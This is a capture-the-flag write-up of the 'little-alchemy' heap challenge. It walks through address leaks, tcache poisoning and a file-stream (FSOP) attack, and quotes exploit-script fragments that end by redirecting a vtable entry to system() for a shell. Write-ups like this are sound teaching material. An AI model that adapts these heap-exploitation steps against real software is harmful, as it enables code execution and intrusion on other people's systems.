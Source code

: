 # little-alchemy

## TLDR
* Heap overflow
* Tcache poisoning
* FSOP

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Dynamically linked
* Symbol  : Not Stripped

result of checksec
* RELRO  : Partial RELRO
* Canary : Disable
* NX     : Enable
* PIE    : Enable 

libc version: 2.31(not distributed)

The challenge binary is written by C++.  
I'm not good at reversing binaries of this lang.  
So I found the vulnerability mainly by dynamic analysis.  

Even though we don't have to get a shell to solve this chal, I finally got a shall.  
I noticed that after solving the challenge :(  
We should read the discription of challenges before solving.  

:description
```
Note: the flag is inside the binary, and clearly it is different on the remote server.
```

Through dynamic analysis, I found that we can allocate chunks whose size is 0x30 or 0x50.  
The former is made by command 1 with index (-1, -1), another is index(-1, -2).  

### Exploit 
"2. Edit" command has a vulnerability of overflow.  
So we can overwrite memory on heap freely.  

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/m0lecon/pwn/little_alchemy/solve.py).  
I'll use this to show how to exploit.

Let's begin.  

* leak addresses 
We want some kind of chunks to get addresses of memory.   

1. chunks not freed for leaking address of binary
In this binary, an address of .data section is stored at the top of allocated chunks([chunk+0x0]). And editable string is stored which begin at [chunk+0x18].  
So, we make two chunks in contiguous location, and trigger overflow with edit command against the former chunk. We can get the address of .data secion with show command.  
One thing to keep in mind, edit command can trigger overflow, but it ends with null byte.  
In order to leak, we have to prepare some bytes at other location, and then copy them to target location.  
With copy command, we can edit memory without null byte.

In my exploit, this part is relevant.
```
...
	# leak binary addres
	payload = b"0"*0x17+b"X"
	edit(4,payload)
	copy(4,0)
	show_one(0) 					# leak 
	conn.recvuntil("0X")
	bin_base = conn.recvline()[:-1] 
	bin_base = u64(bin_base+b'\x00'*(8-len(bin_base))) - 0x5d78
	got_strlen = bin_base + off_got_strlen
	
	# leak heap addres part
	copy(4,6)
	show_one(6)						# leak
	conn.recvuntil("0X") 			
	heap_base = conn.recvline()[:-1] 
	first_chunk = u64(heap_base+b'\x00'*(8-len(heap_base))) - 0x6d110 + 0x6cea0
...
```
2. chunks linked to tacahe for leaking address of heap
Same as the previous example, we can get the address of heap.  
We only have to link the letter chunk of two chunks in contiguous location.  

3. chunks linked to unsorted bin for leaking address of libc
To get this one, we allocate enough size of memory avoiding freed chunks are reused.  

In my exploit, this part is relevant.
```
...
	get_x30_chk(0)
	get_x30_chk(1)
	
	payload = b"A"*0x10
	payload += p64(0x131) # 0x31 -> 0x131
	for i in range(2, 9):
		get_x50_chk(i)
		edit(i-1, payload[:-1]) # overwrite size not to be reused
		get_x30_chk(i)
	get_x50_chk(2)
	get_x50_chk(3)
	get_x50_chk(4)
	get_x50_chk(5)
...
...
...
	# link fake chunk to unsorted bin
	payload = b"A"*0x10
	payload += p64(0x451) 			# overwrite chunk size 0x31->0x451
	edit(0,payload[:-1])
	
	# leak libc address
	get_x50_chk(8)

	edit(4, "A"*0x17+"X")
	delete(1)						# linked to unsorted bin
	copy(4,0)
	show_one(0)						# leak address of unsorted bin in libc
	conn.recvuntil("AX")
...
```
Then overwrite chunk size into 0x451 which linked to unsorted bin, not to tcache.  
Same as 1 & 2, we can get the address of libc with show command.

We are not distributed libc file, so I guess the version of libc from unsorted bin address. 
But actually I think it is bad approach.

* tcache poisoning 
We have the address of binary, heap and libc.  
So Let's start exploit.  
In this time, we can't use _free_hook and  one_gadget RCE to get a shell, So I used FSOP exploit.  
Now we can write heap area freely, it is easy for us to use tcache poisoning.  
I want to overwrite _IO_list_all and a vtable entry.  
So link the addresses which are close to them to tcache.

In my exploit, this part is
```
...
	# tcache poisoning
	payload = b"D"*0x60
	payload += p64(0x31)
	payload += p64(libc_vtable-0x10) # link [_IO_file_jumps-0x10] to tcache(0x30)
	
	edit(7, payload)
	
	get_x30_chk(2)
	get_x30_chk(3)
	
	payload = p64(libc_system)
	edit(3, payload)				# write libc_system at [_IO_file_jumps+8]
	
	payload = b"B"*0x68
	payload += p64(libc_io_list-0x18) 	# link [_IO_list_all-0x18] to tcache(0x50)
	edit(2, payload)				
	
	get_x50_chk(6)
	get_x50_chk(7)
...
```

* FSOP
If you don't know FSOP well, I think [this site](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique) is helpful(and [another](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)).  
Not to make program failed, we have to satisfy some condition.
* vtable check
fp->vtable must be in _IO_vtables section.  
So we set fake_fp->vtable = (_IO_file_jumps-0x10), and [_IO_file_jumps+0x8] = libc_system(because the offset of io_overflow in vtable is 0x18).
* call _IO_OVERFLOW
1. fp->_mode <= 0
2. fp->_IO_write_ptr > fp->_IO_write_base

Then, call exit() with exit command, get a shell.
```
$ls
PoW.py    entrypoint.sh  littleAlchemy
```
But, where is flag???  
oh, it is in binary.  Type 'strings ./littleAlchemy'.

## Reference
FSOP
* https://ctf-wiki.org/pwn/linux/io_file/fsop/
* https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

twitter: @kam1tsur3
